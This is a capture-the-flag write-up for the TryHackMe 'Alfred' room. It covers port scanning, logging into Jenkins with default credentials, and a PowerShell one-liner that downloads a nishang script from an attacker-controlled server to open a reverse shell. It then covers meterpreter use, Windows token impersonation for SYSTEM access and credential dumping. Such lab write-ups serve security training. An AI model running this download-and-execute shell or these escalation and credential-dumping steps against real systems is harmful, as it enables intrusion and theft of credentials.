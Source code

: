 # Alfred \(W\) \(wlk\)

_TryHackMe_ – [**Alfred**](https://tryhackme.com/room/alfred) Write-Up

_topics_: web application attacks, active info gathering, powershell, Windows privilege escalation \(authentication tokens\), jenkins web server

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation**
4. **Exploitation \(Root PrivEsc\)**

new tools: nmapautomater

#### USE WITHOUT METASPLOIT

## 1\) Plan

## 2\) Enum

initial enum with `nmap -vvv <ip>` _or_ `./nmapAutomator.sh <ip> Basic` returns 3 open ports \(http, ms-wbt-server and http-proxy \(80, 3389, 8080\)\)

- we are tasked with finding a username:password for the login panel. There is no login on the initial URL so we must try the URL on one of its open ports, 80, 3389 or **8080**. Navigating to port 8080 and using default creds \(admin:admin\) work :D

## 3\) Local Privilege Escalation

we need to find a way to execute commands on the webserver. This can only be achieved on the website itself \(there are several CVEs that demonstrate potential ACE but not for the purposes of this run through\).

**The desired privesc on the walkthrough did not work at all, so I used metasploit to launch meterpreter.**

The desired walkthrough through powershell invoking a reverse tcp shell from Jenkins server back to attacker by command `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port` by setting up a HTTP server and having the invoke shell from nishang. Everything was configured properly the machine did not correctly build the command from inside the website, as it was displayed by the instructor and several walkthroughs. Nothing was changed so idk really. Following this is when you switch and upgrade shell to meterpreter by loading msfvenom and calling it from powershell on the victim machine. Useful commands for meterpreter include:

`getuid`

`shell`

`execute -f cmd.exe -i -H (if above fails)`

The process to root is the same from this point.

## 4\) Exploitation \(Root\)

The act of transitioning to root on this box is done by token impersonation of the svchost.exe service. This means several things.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe\(think of this as an authentication process\). The token consists of user SIDs \(security ID\), group SIDs and privileges. There are two types of access tokens:

* primary access tokens: those associated with a user account that are generated on log on
* impersonation tokens: these allow a particular process\(or thread in a process\) to gain access to resources using the token of another \(user/client\) process

basically windows SUID files. View all the privileges using whoami /priv

There are many processes that are running with svchost as NT AUTHORITY\SYSTEM. Svchost is a **shell** that is loaded from a executable file is used to host these DLL services. It is the main host from which all logical service groups are branched from.

To check which tokens are available, enter the _list\_tokens -g_. We can see that the _BUILTIN\Administrators_ token is available. Use the _impersonate\_token "BUILTIN\Administrators"_ command to impersonate the Administrators token

ps to view which processes are root. Migrate to svchost.exe or services.exe which is owned by nt authority\system. Create shell and have root privileges.

5\) Post Exploitation

creds\_all in meterpreter



